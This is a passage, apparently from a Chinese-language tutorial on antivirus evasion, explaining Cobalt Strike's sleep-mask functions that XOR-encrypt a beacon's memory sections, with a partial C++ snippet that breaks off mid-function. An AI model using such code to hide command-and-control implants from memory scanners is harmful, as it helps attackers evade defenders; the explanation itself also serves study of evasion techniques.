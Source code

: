 ![image-20231115154937068](利用CS的Profile文件实现免杀/image-20231115154937068.png)	



`mask_sections`函数通过遍历`SLEEPMASKP`结构中的区段数组, 对每个区段调用`mask_section`函数来实现加密或解密操作

`mask_section`函数用于xor加密或解密一个特定的内存区段，它接受三个参数：一个`SLEEPMASKP`指针和两个指定内存区段起始和结束位置的值

```cpp
/* Mask a beacon section
 *   First call will mask
 *   Second call will unmask
 */
void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
   while (a < b) {
      *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
      a++;
   }

    
/* Mask the beacons sections
 *   First call will mask
 *   Second call will unmask
 */
void mask_sections(SLEEPMASKP * parms) {
   DWORD * index;
```